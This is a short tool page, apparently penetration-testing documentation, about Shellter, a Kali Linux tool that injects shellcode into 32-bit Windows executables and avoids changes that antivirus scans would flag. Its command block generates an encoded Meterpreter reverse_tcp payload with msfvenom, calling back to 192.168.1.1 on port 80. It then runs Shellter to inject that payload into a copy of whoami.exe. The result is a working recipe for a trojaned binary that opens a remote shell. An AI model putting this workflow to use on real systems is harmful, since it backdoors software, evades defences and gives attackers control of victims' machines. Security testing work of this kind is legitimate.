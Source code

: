 # Shellter

[https://www.kali.org/tools/shellter/](https://www.kali.org/tools/shellter/)

Shellter is a dynamic shellcode injection tool aka dynamic PE infector. It can be used in order to inject shellcode into native Windows applications (currently 32-bit apps only). The shellcode can be something yours or something generated through a framework, such as Metasploit.

Shellter takes advantage of the original structure of the PE file and doesn’t apply any modification such as changing memory access permissions in sections (unless the user wants to), adding an extra section with RWE access, and whatever would look dodgy under an AV scan.

```
$ pwd
/tmp/shellter
$ cp /usr/share/windows-resources/binaries/whoami.exe .
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=80 -e x86/shikata_ga_nai -i 7 -f raw > met.bin

┌──(root💀kali)-[/usr/share/windows-resources/shellter]
└─# wine shellter.exe
A
/tmp/shellter/whoami.exe
Enable Stealth Mode? (Y/N/H): N
Use a listed payload or custom? (L/C/H): C
/tmp/shellter/met.bin
Is this payload a reflective DLL loader? (Y/N/H): N

whoami.exe
```
